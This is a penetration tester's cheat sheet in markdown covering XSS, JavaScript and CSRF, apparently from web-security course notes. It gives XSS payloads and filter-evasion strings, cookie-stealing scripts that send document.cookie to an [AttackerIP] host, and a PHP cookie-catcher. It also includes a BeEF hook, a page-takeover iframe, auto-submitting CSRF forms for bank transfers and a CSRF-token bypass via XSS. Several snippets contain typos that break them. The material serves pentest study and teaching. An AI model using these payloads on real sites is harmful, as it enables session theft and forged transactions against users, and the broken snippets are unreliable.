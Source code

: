 ```yaml
---
title: XSS, Javascript, and CSRF
category: Web Application
order: 6
---
```


> **XSS Reflection Testing**

**Using Burp - Step 1:** 
1. Intruder-> Battering Ram (include user-agent, referer, cookie values)
2. Payoad -> Use a magic string: 9vqkz (any random string)
3. Options -> Search responses for payload strings -> magic string
4. Sort on p grep, if found change attack type to sniper.

**Using Burp - Step 2 Filter Test:**
1. Repeat above with sniper and the following payloads (simple list):
* <code> &lt;&gt;[]{}()$--'#&#34;&amp;;/ </code>
* <code> '';!--&#34;&lt;XSS&gt;=&amp;{()}</code>
* <code> &lt;x&gt;'&#34;()= </code>
* <code> ;[]{}'"() </code>
* <code> jAvaSCript:prompt(9vqkz) </code>
* <code> &lt;script&gt;alert(42);&lt;/script&gt; </code>

**DOM Based:**

* Look for document.[] like document.write in the client side javascript

Input Locations:
* Cookies
* Referer 
* Dialog Input
* XMLHTTPRequests

**Additional Payloads:**
* Fuzzdb /attack-payloads/xss
* JBroFuzz (built into ZAP)
* Burp (Pro provides expanded payloads)
* ZAP (JBroFUzz and some fuzzdb)
* XSSer (includes some that the others don't have)

**Additional XSS Test Strings**
{% highlight html %}
<script>alert(document.cookie);</script>
<script type="text/vbscript">alert(DOCUMENT.COOKIE)</script>
<script src=http://www.example.com/malicious-code.js></script>
%3cscript src=http://www.example.com/malicious-code.js%3e%3c/script%3e
\x3cscript src=http://www.example.com/malicious-code.js\x3e\x3c/script\x3e
>"><script>alert("XSS")</script>&
"><STYLE>@import"javascript:alert('XSS')";</STYLE>

//Unicode Filter Bypass
＜script src=https://tiny.cc/numbers＞＜/script＞

//Only works for IE6 and earlier
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')> 
<IMG SRC=JaVaScRiPt:alert(&quot;XSS<WBR>&quot;)>
<IMG SRC="jav&#x09;ascript:alert(<WBR>'XSS');">
<IMG SRC="jav&#x0A;ascript:alert(<WBR>'XSS');">
<IMG SRC="jav&#x0D;ascript:alert(<WBR>'XSS');">
{% endhighlight %}

**Tools:**
* XSSer 
* xssniper
* XSScrapy (xsssniper -u "http://sec542.com" --crawl --forms -http-proxy 127.0.0.1:8082)

**Resources:**
* [XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

> **Javascript Events for XSS**

onload | change content after it loads
onunload | launch pop-under window to retain control of a zombie browser
onsubmit | change form values os the transaction is one of the attacker's choosing
onfocus | send http request to the attacker's web server to reveal which controls the user is selecting

> **XSS Exploitation**

**SSL/TLS Enable Sites and External Scripts**
* Note that exteral scripts on SSL/TLS enabled sites requires the script to be hosted on an SSL enabled site
* Example would be github and https://rawgit.com/path/to/script.js
* Shorten with tinyurl or alternatives

**Exploitation Options**
* Redirect to competitor (or other equivantly bad site) 
	* <code> window.location.href = "http://www.sec542.org" ; </code>
* Have form submit to you:
	* <code> document.forms[1].action="http://www.sec542.org" </code>
* Add Competitor logo
* Negative fake information (or other content modification)
* Read cookies
* Fake Login Site 

**Basic Stealing Cookie:**
{% highlight html %}
<!-- Attacker -->
python -m SimpleHTTPServer 

<!-- Victim -->
<script>document.location='http://[AttackerIP]/cgi-bin/grab.cgi?'+document.cookie;</script>
{% endhighlight %}

**POST:**
*Needs CSRF Vulnerability to work*
{% highlight html %}
<form  ID=CSRF action="<website>" method="POST">
<input type="hidden" name="<paramater>" value="<value>"/>
<input type="submit" value="View my pictures" style="position: absolute; left: -9999px; width: 1px; height: 1px;"
       tabindex="-1"/>
</form>
<script>document.getElementById('CSRF').submit();</script>
{% endhighlight %}

**XSS Cookie Catcher**
{% highlight php %}

#Attacker
<?php
$cookies = $_SERVER['REQUEST_URI'];
$output = "Received=".$cookies."\n";
$fh = fopen("/tmp/cookiedump", "a+");
$contents = fwrite($fh, $output);
fclose($fh);
echo "FOO!";
?>

#Victim
http://www.sec542.org/PhpMyAdmin/index.php?lang=<script>var lo=document.location;document.location='//[AttackerIP]/cookiecatcher.php?'%2bdocument.cookie;var la = new Array();la = lo.toString().split('?');document.location=la[0];</script>
"
{% endhighlight %}

**Take Over a Page**
{% highlight html %}
<style type="text/css"> <! -- .style11 {position:fixed; top:0px; left:0px; bottom:0px; right:opx; width:100%; height:100%; border:none; margin:0; padding:0; overflow:hidden; z-index:999999;} //-->
</style>

<iframe class="style11" src="http://127.127.127.127/www.sans.org/account/" frameborder="0" scrolling="no" />
{% endhighlight %}

**BEEF**
{% highlight html %}
<script src=http://beefserver:3000/hook.js></script>
<!-- Most important is the browser exploitation - Metasploit attack payloads -->
{% endhighlight %}


>**XML Get HTTP Request**

{% highlight javascript %}
//Create the oject
xmlhttp = new XMLHttpRequest();
//Sets which function should be called when the ready state changes (AJAXProcess is a custom function)
xmlhttp.onreadystatechange = function () { if (xhr.readyState ==4 && xhr.status ==200) { document.getElementByID("answer").innerHTML = xhr.responseText;}}
//set up the request
xmlhttp.open("GET", "http://www.url.org/index.php");
//Send the request
xmlhttp.send();
//The property that contains the current ready state
xmlhttp.readyState
//THe property that contains the contents of any response from the server
xmlhttp.responseText
{% endhighlight %}

>**XML Post HTTP Request**

{% highlight javascript %}
//Create the oject
xmlhttp = new XMLHttpRequest();
//Alerts the response
xmlhttp.onreadystatechange = function () {if (xmlhttp.readyStat == XMLHttpRequest.DONE) { alert(xmlhttp.responseText); }
//set up the request
xmlhttp.open("POST", "http://www.url.org/index.php");
//set up the content type
xmlhttp.setRequestHeader("Content-type", "applicaiton/x-ww-form-urlencoded");
//Send the request
xmlhttp.send("param1=value1&param2=value2&param3=value3");
//The property that contains the current ready state
xmlhttp.readyState
//THe property that contains the contents of any response from the server
xmlhttp.responseText
{% endhighlight %}

>**Exploiting JSON**

Look for:
1. Too much data provided from server and being filtered on the client
	* Use burp/zap to look at JSON data sent for extra data or error messages
2. Error messages provided from server but filtered on the client
	* Use burp/zap to look at JSON data sent for extra data or error messages
3. Injection (JSON to the server, or JSON in the response, eval)
	* Intercept the JSON and insert attack strings (XSS, SQL), be careful with XSS because it is in a JSON object that is going to be parsed and break out of it appropriately.

>**XSS JSON**

If data is reflected from input into JSON Object (9vqkz is test string):
{% highlight javascript %}
{"query": {"toolIDRequested": "9vqkz", "penTestTools": []}}

Example escape using concatinate:
Prefix: 1"+
Paylod: eval(alert(1))
Suffix:+1

prefix: 1"%2b
Payload: eval(alert(1))
Suffix: %2b"1

prefix: 4"}}); 
payload: alert(1);
suffix:   //
{% endhighlight %}

> **CSRF**

Look for:
1. No CSRF Token
2. Actions that perform a sensitive or important action
	* Network Devices to allow bad guys to come in
3. Transaction that contains predictable parameters

> **CSRF Exploits**

With ZAP:
1. Right Click on the request in the history
2. Generate Anti CSRF Test From
3. In a logged in session test form

*Burp also has one in the pro version*

{% highlight html %}
GET:
Image tag 
<img src="https://a.tld/t.php?acct=12345&amt=1000">

IFRAME
<iframe src="https;//a.tld/t.php?acct=12345&amt1000">
{% endhighlight %}

POST:
{% highlight html %}
<form  ID=CSRF action="<website>" method="POST">
<input type="hidden" name="<paramater>" value="<value>"/>
<input type="submit" value="View my pictures" style="position: absolute; left: -9999px; width: 1px; height: 1px;"
       tabindex="-1"/>
</form>
<script>document.getElementById('CSRF').submit();</script>


<body onload="document.xsrf.submit();">
<form name="xsrf" action="https://bank.com/transfer" method="POST">
<input type="text" name="acctnum" value="42">
<input type="text" name="ammount" value="5000">
</form>
</body>

CSS or Javascript import 

XMLHTTPRequest
<script>
funciton ajazxFunction()
{
	var xmlHTTP;
	xmlHTTP=new XMLHttpRequest();
	xmlHTTP.onreadystatechange=funciton()
	var formData = new FormData();
	formData.append("acctnum", "42");
	formData.append("amount", 5000);
	xmlHTTP.addEventListener("load", onLoad, false);
	xmlHTTP.addEventListern("error", onError, false);
	xmlHTTP.open('POST', 'https://bank.com/transfer', true);
	xmlHTTP.withCredentials=true;
	xmlHTTP.send(formdata);
}
</script>
<hr onmouseover='javascript:ajaxFunction()'> 

{% endhighlight %}

{% highlight html %}
<html>
<body onload="f1.submit()";>
<h3>http://www.sec542.org/sec542_oldforum/posting.php</h3><form id="f1" method="POST" action="http://www.sec542.org/sec542_oldforum/posting.php">
<table>
<tr><td>
post<td><input name="post" value="Submit" size="100"></tr>
<tr><td>
message<td><input name="message" value="test :D " size="100"></tr>
</table>
</form>
<button onclick="document.getElementById('f1').submit()">Submit</button>
</body>
</html>
{% endhighlight %}

Useful Resource:

* [Multi Post CSRF](https://www.lanmaster53.com/2013/07/multi-post-csrf/)

Example CSRF token bypass with XSS:
{% highlight html %}
var req = new XMLHttpRequest;
req.open('GET', 'http://comp.org/index.php?page=add-to-your-blog.php', true);
req.onload = function (e) {
	if (this.status == 200) {
	var parser = new DOMParser ();
	var responseDoc = parser.parseFromString(this.response, "text/html");
	token = responseDoc.getElementsByName("xsrf_token")[0].value;
	console.log('response',token);
	
	var postBlog = new XMLHttpRequest;
	var params = 'input=Bloggs2!&xsrf_token=' + token + '&Submit_button=Submit';
	postBlog.open('POST', 'http://comp.org/index.php?page=add-to-your-blog.php', true);
	postBlog.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
	postBlog.onreadystatechange = function() {
		if(postBlog.readyState == 4 && postBlog.status == 200) {
			console.log('Blog Posted');
		}
	}
	postBlog.send(params)
	}
};
req.send();
{% endhighlight %}

> **Useful Resources**

* [XSS, SQL, LDAP, XPATH, XML Injection Test Strings](https://www.owasp.org/index.php/OWASP_Testing_Guide_Appendix_C:_Fuzz_Vectors) 
* [XSS Examples](http://www.xssed.com/)
* [XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)


> **Useful Tools**

* XSSer 
* xssniper
* XSScrapy (xsssniper -u "http://sec542.com" --crawl --forms -http-proxy 127.0.0.1:8082)


